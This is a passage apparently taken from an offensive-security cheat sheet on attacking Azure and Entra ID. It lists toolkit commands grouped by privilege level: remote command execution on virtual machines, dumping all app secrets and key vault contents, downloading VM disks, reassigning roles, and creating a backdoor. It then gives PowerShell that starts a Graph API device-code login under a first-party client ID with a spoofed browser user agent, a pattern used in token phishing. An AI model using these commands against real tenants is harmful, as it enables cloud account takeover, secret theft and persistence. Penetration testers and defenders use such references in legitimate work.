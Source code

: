     # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails
    
    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk
    
    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```
    
    ⧉ Copied!
    

## Authenticating to the Microsoft Graph API in PowerShell

- [Microsoft Applications ID](https://learn.microsoft.com/fr-fr/troubleshoot/azure/active-directory/verify-first-party-apps-sign-in)

| Name | GUID |
| --- | --- |
| Microsoft Azure PowerShell | 1950a258-227b-4e31-a9cf-717495945fc2 |
| Microsoft Azure CLI | 04b07795-8ddb-461a-bbee-02f9e1bf7b46 |
| Portail Azure | c44b4083-3bb0-49c1-b47d-974e53cbdf3c |

### Graph API Refresh Token

Authenticating to the Microsoft Graph API in PowerShell

```ps1
$body = @{
    "client_id" =     "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource" =      "https://graph.microsoft.com" # Microsoft Graph API 
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers=@{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```
